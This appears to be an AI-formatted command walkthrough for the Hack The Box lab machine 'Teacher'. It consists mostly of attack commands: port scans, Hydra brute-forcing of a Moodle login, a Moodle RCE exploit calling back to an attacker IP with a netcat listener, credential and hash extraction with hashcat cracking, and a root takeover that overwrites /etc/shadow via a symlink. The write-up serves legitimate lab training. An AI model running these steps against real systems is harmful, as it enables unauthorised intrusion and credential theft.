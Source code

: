 Here’s the **Markdown-formatted command walkthrough** for **HTB: Teacher**, structured and cleaned for easy reference:

---

# 🎓 HTB: Teacher – Command Walkthrough

## 🔎 Reconnaissance

### Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.153
```

### Targeted Service Scan
```bash
nmap -sC -sV -p 80 -oA scans/nmap_services 10.10.10.153
```

---

## 🌐 Web Enumeration

### Directory Bruteforcing with Gobuster
```bash
gobuster dir --url http://10.10.10.153 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50
```

### Discover Hidden Credential in Image
```bash
wget http://10.10.10.153/images/5.png
mv 5.png 5.txt
cat 5.txt
```

### Generate Password List (Python)
```python
#!/bin/python3
import string

partial_pass = 'Th4C00lTheacha'

for c in string.printable:
    print(partial_pass + c)
```

### Brute Force Moodle Login with Hydra
```bash
hydra -l giovanni -P passlist.txt 10.10.10.153 \
http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
```

---

## 💻 Remote Code Execution (Moodle CVE-2018–1133)

### Use MoodleExploit (PHP)
```bash
php MoodleExploit.php url=10.10.10.153/moodle \
user=giovanni pass='Th4C00lTheacha#' \
ip=10.10.14.51 port=80 course=2
```

### Netcat Listener
```bash
nc -nvlp 80
```

---

## 🧬 Post Exploitation: Privilege Escalation

### 📂 Find Moodle DB Credentials
```bash
cat /var/www/html/moodle/config.php
```

### Connect to MySQL with DB creds
```bash
mysql -u root -p
# Password: Welkom1!
```

### Extract Moodle User Hashes
```sql
USE moodle;
SELECT username, password FROM mdl_user;
```

### Crack MD5 Hash with Hashcat
```bash
hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
```

### Switch to giovanni User
```bash
su giovanni
# or SSH with cracked password 'expelled'
```

---

## 🚀 PrivEsc via backup.sh Logic Flaw

### 📁 Create Symlink to /etc/shadow
```bash
ln -s /etc/shadow ~/work/tmp/link
cp ~/work/tmp/link shadow.backup
```

### ✏️ Replace root hash with giovanni's
Edit `/etc/shadow` and copy giovanni’s hash to root’s line.

### Become Root
```bash
su -
# Password: expelled
```

### ✅ Restore Original Shadow File
```bash
cp ~/work/shadow.backup /etc/shadow
```

---

## 🧠 Optional: Symlink to Entire FS (Not Recommended)
```bash
ln -s / tmp/allfolders
```

---

Let me know if you'd like a downloadable Markdown file for this one or want it merged into a full HTB notes doc!